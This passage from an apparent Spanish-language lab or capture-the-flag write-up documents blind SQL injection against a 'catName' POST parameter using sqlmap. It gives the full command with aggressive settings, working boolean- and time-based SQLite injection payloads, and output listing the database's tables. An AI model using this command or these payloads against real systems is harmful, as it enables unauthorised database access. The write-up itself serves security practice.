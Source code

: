 Después de un breve tiempo, hicimos diversas pruebas de inyecciones SQL con `SQLMap`. Finalmente el último comando utilizado fue el siguinte. Utilizamos esta herramienta dado que las inyecciones eran `SQLI Blind` y deberíamos hacer fuerza bruta carácter por carácter para averiguar los resultados de la base de datos.

En este caso, la herramienta lo realiza por nosotros, en el resultado obtenido, comprobamos diversos nombres de tablas de la base de datos.

```bash
❯ sqlmap -r request -p catName --dbms sqlite --level 5 --risk 3 --technique=BEST --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:32:39 /2025-02-05/

[02:32:39] [INFO] parsing HTTP request from 'request'
[02:32:39] [INFO] testing connection to the target URL
[02:32:39] [INFO] testing if the target URL content is stable
[02:32:40] [INFO] target URL content is stable
[02:32:40] [WARNING] heuristic (basic) test shows that POST parameter 'catName' might not be injectable
[02:32:40] [INFO] testing for SQL injection on POST parameter 'catName'
[02:32:40] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[02:32:48] [INFO] POST parameter 'catName' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[02:32:48] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[02:32:48] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[02:32:48] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[02:32:56] [INFO] POST parameter 'catName' appears to be 'SQLite > 2.0 AND time-based blind (heavy query)' injectable 
[02:32:56] [INFO] checking if the injection point on POST parameter 'catName' is a false positive
POST parameter 'catName' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=GzzcooCat'||(SELECT CHAR(122,97,113,98) WHERE 6534=6534 AND 9558=9558)||'&catId=1

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catName=GzzcooCat'||(SELECT CHAR(104,76,97,65) WHERE 6505=6505 AND 6068=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&catId=1
---
[02:33:07] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 20.10 or 19.10 or 20.04 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
[02:33:07] [INFO] fetching tables for database: 'SQLite_masterdb'
[02:33:07] [INFO] fetching number of tables for database 'SQLite_masterdb'
[02:33:07] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[02:33:07] [INFO] retrieved: 4
[02:33:07] [INFO] retrieved: accepted_cats
[02:33:20] [INFO] retrieved: sqlite_sequence
[02:33:35] [INFO] retrieved: cats
```